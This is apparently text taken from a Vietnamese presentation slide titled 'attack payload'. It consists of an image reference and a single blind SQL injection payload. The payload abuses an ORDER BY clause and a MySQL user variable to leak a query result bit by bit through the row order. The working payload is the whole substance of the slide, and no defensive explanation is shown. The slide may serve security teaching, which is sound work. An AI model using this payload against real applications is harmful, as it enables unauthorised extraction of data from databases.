

# Payload tấn công
order by (select if((@hbn:=@hbn+1)<9,if(@hbn=1,1,if((select ascii(substring((<query>),1,1))) & pow(2,@hbn-2) > 0,2,0)),1000) from  (select @hbn:=0) as t)